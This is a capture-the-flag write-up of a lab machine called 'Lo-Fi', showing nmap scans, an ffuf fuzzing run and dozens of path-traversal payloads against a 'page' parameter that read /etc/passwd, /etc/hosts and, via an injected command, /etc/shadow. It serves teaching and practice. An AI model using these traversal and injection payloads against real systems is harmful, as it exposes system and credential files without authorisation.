


# Lo-Fi Write-Up


This machine is aimed to understand the basics of the local file intrusion (LFI) and path traversal vulnerabilities.

<!-- truncate -->

## Recon

### nmap

In this part of the scan, you don't need to use nmap because in the room is telling you that you can access the ip on the browser but I like to see what ports are open on the target:

```bash
nmap -p- --open --min-rate=5000 -Pn -T4 -oN nmap/open_ports 10.10.97.145
Starting Nmap 7.95 ( https://nmap.org ) at 2025-01-25 23:54 CET
Nmap scan report for 10.10.97.145 (10.10.97.145)
Host is up (0.048s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 12.35 seconds
```

```bash
nmap -p 22,80 -sV -sC -oN nmap/services_version 10.10.97.145
Starting Nmap 7.95 ( https://nmap.org ) at 2025-01-25 23:56 CET
Nmap scan report for 10.10.97.145 (10.10.97.145)
Host is up (0.047s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 3b:fe:8d:25:44:81:09:18:87:45:5e:38:9c:eb:49:d1 (RSA)
|   256 ee:16:f1:ea:bd:3a:36:6f:ce:c4:9c:40:2f:42:f9:5e (ECDSA)
|_  256 c7:2c:10:af:72:f3:29:4a:3e:12:1f:66:1b:73:6b:a7 (ED25519)
80/tcp open  http    Apache httpd 2.2.22 ((Ubuntu))
|_http-title: Lo-Fi Music
|_http-server-header: Apache/2.2.22 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.61 seconds
```

### Website by IP - TCP 80

It is a very simple website to listen to lofi music by embedding youtube videos.


If I click on the discography links, there is a parameter called `page` that displays a different php file with the embedded youtube video.



### LFI Fuzz

Using `ffuf` to search the posible paths in the server to see if there are interesting files.

```
$ ffuf -w /usr/share/wordlists/Fuzzing/LFI/LFI-Jhaddix.txt -u "http://10.10.97.145?page=FUZZ" -fl 124 -o ffuf/lfi-paths

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.0.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.97.145?page=FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/Fuzzing/LFI/LFI-Jhaddix.txt
 :: Output file      : ffuf/lfi-paths
 :: File format      : json
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
 :: Filter           : Response lines: 124
________________________________________________

%0a/bin/cat%20/etc/passwd [Status: 200, Size: 3987, Words: 1368, Lines: 125, Duration: 53ms]
..%2F..%2F..%2F%2F..%2F..%2Fetc/passwd [Status: 200, Size: 4638, Words: 1363, Lines: 143, Duration: 54ms]
../../../../../../../../../../../../etc/hosts [Status: 200, Size: 4051, Words: 1360, Lines: 131, Duration: 48ms]
../../../../../../../../../../../../etc/hosts%00 [Status: 200, Size: 4051, Words: 1360, Lines: 131, Duration: 48ms]
../../../../../../../../../../../../../../../../../../../../../../etc/passwd [Status: 200, Size: 4638, Words: 1363, Lines: 143, Duration: 48ms]
../../../../../../../../../../../../../../../../../../../../../etc/passwd [Status: 200, Size: 4638, Words: 1363, Lines: 143, Duration: 48ms]
../../../../../../../../../../../../../../../../../../../etc/passwd [Status: 200, Size: 4638, Words: 1363, Lines: 143, Duration: 48ms]
../../../../../../../../../../../../../../../../../../../../etc/passwd [Status: 200, Size: 4638, Words: 1363, Lines: 143, Duration: 49ms]
../../../../../../../../../../../../../../../../../etc/passwd [Status: 200, Size: 4638, Words: 1363, Lines: 143, Duration: 48ms]
../../../../../../../../../../../../../../../../../../etc/passwd [Status: 200, Size: 4638, Words: 1363, Lines: 143, Duration: 49ms]
../../../../../../../../../../../../../../../../etc/passwd [Status: 200, Size: 4638, Words: 1363, Lines: 143, Duration: 49ms]
../../../../../../../../../../../../../../../etc/passwd [Status: 200, Size: 4638, Words: 1363, Lines: 143, Duration: 49ms]
../../../../../../../../../../../../../../etc/passwd [Status: 200, Size: 4638, Words: 1363, Lines: 143, Duration: 50ms]
../../../../../../../../../../../../../etc/passwd [Status: 200, Size: 4638, Words: 1363, Lines: 143, Duration: 50ms]
../../../../../../../../../../../etc/passwd [Status: 200, Size: 4638, Words: 1363, Lines: 143, Duration: 49ms]
../../../../../../../../../../../../etc/passwd [Status: 200, Size: 4638, Words: 1363, Lines: 143, Duration: 49ms]
../../../../../../../../../../etc/passwd [Status: 200, Size: 4638, Words: 1363, Lines: 143, Duration: 50ms]
../../../../../../../../../etc/passwd [Status: 200, Size: 4638, Words: 1363, Lines: 143, Duration: 48ms]
../../../../../../../../etc/passwd [Status: 200, Size: 4638, Words: 1363, Lines: 143, Duration: 49ms]
../../../../../../../etc/passwd [Status: 200, Size: 4638, Words: 1363, Lines: 143, Duration: 48ms]
../../../../../../etc/passwd [Status: 200, Size: 4638, Words: 1363, Lines: 143, Duration: 48ms]
../../../../../etc/passwd [Status: 200, Size: 4638, Words: 1363, Lines: 143, Duration: 48ms]
../../../../etc/passwd  [Status: 200, Size: 4638, Words: 1363, Lines: 143, Duration: 48ms]
../../../etc/passwd     [Status: 200, Size: 4638, Words: 1363, Lines: 143, Duration: 49ms]
../../../../../../../../../../../../../../../../../../../../../../etc/passwd%00 [Status: 200, Size: 4638, Words: 1363, Lines: 143, Duration: 48ms]
../../../../../../../../../../../../../../../../../../../../etc/passwd%00 [Status: 200, Size: 4638, Words: 1363, Lines: 143, Duration: 48ms]
../../../../../../../../../../../../../../../../../../../../../etc/passwd%00 [Status: 200, Size: 4638, Words: 1363, Lines: 143, Duration: 49ms]
../../../../../../../../../../../../../../../../../../../etc/passwd%00 [Status: 200, Size: 4638, Words: 1363, Lines: 143, Duration: 48ms]
../../../../../../../../../../../../../../../../../../etc/passwd%00 [Status: 200, Size: 4638, Words: 1363, Lines: 143, Duration: 48ms]
../../../../../../../../../../../../../../../../../etc/passwd%00 [Status: 200, Size: 4638, Words: 1363, Lines: 143, Duration: 48ms]
../../../../../../../../../../../../../../../etc/passwd%00 [Status: 200, Size: 4638, Words: 1363, Lines: 143, Duration: 48ms]
../../../../../../../../../../../../../../../../etc/passwd%00 [Status: 200, Size: 4638, Words: 1363, Lines: 143, Duration: 48ms]
../../../../../../../../../../../../../etc/passwd%00 [Status: 200, Size: 4638, Words: 1363, Lines: 143, Duration: 49ms]
../../../../../../../../../../../../../../etc/passwd%00 [Status: 200, Size: 4638, Words: 1363, Lines: 143, Duration: 49ms]
../../../../../../../../../../../../etc/passwd%00 [Status: 200, Size: 4638, Words: 1363, Lines: 143, Duration: 51ms]
../../../../../../../../../../../etc/passwd%00 [Status: 200, Size: 4638, Words: 1363, Lines: 143, Duration: 51ms]
../../../../../../../../../../etc/passwd%00 [Status: 200, Size: 4638, Words: 1363, Lines: 143, Duration: 50ms]
../../../../../../../../../etc/passwd%00 [Status: 200, Size: 4638, Words: 1363, Lines: 143, Duration: 49ms]
../../../../../../../../etc/passwd%00 [Status: 200, Size: 4638, Words: 1363, Lines: 143, Duration: 48ms]
../../../../../../../etc/passwd%00 [Status: 200, Size: 4638, Words: 1363, Lines: 143, Duration: 48ms]
../../../../../../etc/passwd%00 [Status: 200, Size: 4638, Words: 1363, Lines: 143, Duration: 49ms]
../../../../../etc/passwd%00 [Status: 200, Size: 4638, Words: 1363, Lines: 143, Duration: 49ms]
../../../../etc/passwd%00 [Status: 200, Size: 4638, Words: 1363, Lines: 143, Duration: 48ms]
../../../etc/passwd%00  [Status: 200, Size: 4638, Words: 1363, Lines: 143, Duration: 48ms]
../../../../../../etc/passwd&=%3C%3C%3C%3C [Status: 200, Size: 4638, Words: 1363, Lines: 143, Duration: 48ms]
..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd [Status: 200, Size: 4638, Words: 1363, Lines: 143, Duration: 1765ms]
%0a/bin/cat%20/etc/shadow [Status: 200, Size: 3987, Words: 1368, Lines: 125, Duration: 2728ms]
:: Progress: [929/929] :: Job [1/1] :: 78 req/sec :: Duration: [0:00:05] :: Errors: 0 ::
```

## Root Flag

There are two interesting paths:

- `../../../etc/passwd`
- `../../../../../../../../../../../../etc/hosts`

Typing `../../../etc/passwd` as value in the `page` parameter I can see the content of the file, so this means that I can access the server content in the file system because it is not properly sanitized.



As in the room gives is saying that the flag is in the root directory (`/`), I only need to modify from `../../../etc/passwd` to `../../../flag.txt` to get the content.


And the machine is pwned! ;)

## References

- cmnatic. (2025, January 17). <span class="reference-title">Lo-Fi</span>. *THM Challenges*. [https://app.hackthebox.com/machines/613](https://app.hackthebox.com/machines/613)
